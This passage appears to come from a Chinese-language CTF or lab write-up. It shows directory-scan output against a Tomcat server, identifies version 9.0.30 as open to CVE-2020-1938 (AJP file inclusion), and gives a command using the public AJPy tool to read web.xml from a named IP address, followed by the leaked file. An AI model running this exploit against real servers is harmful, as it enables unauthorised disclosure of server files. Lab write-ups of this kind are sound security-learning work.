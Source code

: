 ```shell
[11:25:34] 403 -    3KB - /manager/jmxproxy/?invoke=BEANNAME&op=METHODNAME&ps=COMMASEPARATEDPARAMETERS
[11:25:34] 403 -    3KB - /manager/jmxproxy
[11:25:34] 403 -    3KB - /manager/VERSION
[11:25:34] 403 -    3KB - /manager/status/all
[11:25:34] 403 -    3KB - /manager/login.asp
[11:25:34] 403 -    3KB - /manager/login
[11:25:34] 403 -    3KB - /manager/jmxproxy/?qry=STUFF
[11:25:34] 403 -    3KB - /manager/admin.asp
[11:25:34] 403 -    3KB - /manager/jmxproxy/?set=BEANNAME&att=MYATTRIBUTE&val=NEWVALUE
[11:25:46] 403 -    0B  - /upload/
[11:25:46] 403 -    0B  - /upload/2.php
[11:25:46] 403 -    0B  - /upload/1.php
[11:25:46] 403 -    0B  - /upload
[11:25:46] 403 -    0B  - /upload/loginIxje.php
[11:25:46] 403 -    0B  - /upload/b_user.csv
[11:25:46] 403 -    0B  - /upload/b_user.xls
[11:25:46] 403 -    0B  - /upload/upload.php
[11:25:46] 403 -    0B  - /upload/test.txt
[11:25:46] 403 -    0B  - /upload/test.php
[11:25:46] 200 -    9KB - /user.html
```

查看 /docs 发现是 `Apache Tomcat Version 9.0.30, Dec 7 2019`, 一眼 CVE-2020-1938 AJP 文件包含

[https://github.com/hypn0s/AJPy](https://github.com/hypn0s/AJPy)

```shell
python3 tomcat.py read_file --webapp=ROOT /WEB-INF/web.xml 39.98.127.74
```

web.xml

```xml
<!DOCTYPE web-app PUBLIC
 "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
 "http://java.sun.com/dtd/web-app_2_3.dtd" >

<web-app>
  <display-name>Archetype Created Web Application</display-name>

  <security-constraint>
    <display-name>Tomcat Server Configuration Security Constraint</display-name>
    <web-resource-collection>
      <web-resource-name>Protected Area</web-resource-name>
      <url-pattern>/upload/*</url-pattern>
    </web-resource-collection>
    <auth-constraint>
      <role-name>admin</role-name>
    </auth-constraint>
  </security-constraint>

  <error-page>
    <error-code>404</error-code>
    <location>/404.html</location>
  </error-page>

  <error-page>
    <error-code>403</error-code>
    <location>/error.html</location>
  </error-page>

  <error-page>
    <exception-type>java.lang.Throwable</exception-type>
    <location>/error.html</location>
  </error-page>
```